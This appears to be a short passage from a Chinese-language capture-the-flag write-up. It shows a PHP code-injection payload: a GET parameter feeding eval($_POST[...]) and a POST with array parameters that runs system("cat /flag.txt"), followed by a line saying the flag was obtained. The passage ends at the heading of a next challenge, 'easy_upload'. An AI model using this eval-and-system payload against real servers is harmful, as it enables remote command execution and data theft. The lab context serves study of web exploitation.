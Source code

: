 ```php
GET ?code=eval($_POST[Ki1ro]);
POST a=Ki1ro&key1[]=1&key2[]=2&Ki1ro=system("cat /flag.txt");
```
成功获取flag<br />![image.png](./images/20231018_0001456335.png)
# easy_upload